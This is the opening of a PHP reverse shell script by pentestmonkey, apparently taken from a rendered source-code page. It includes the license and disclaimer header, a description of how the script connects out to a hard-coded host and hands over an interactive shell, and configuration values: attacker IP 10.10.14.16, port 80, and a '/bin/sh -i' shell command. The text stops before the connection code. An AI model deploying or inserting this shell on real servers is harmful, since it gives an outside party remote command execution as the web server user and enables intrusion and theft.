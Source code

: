 ```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.16';  // CHANGE THIS
$port = 80;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

```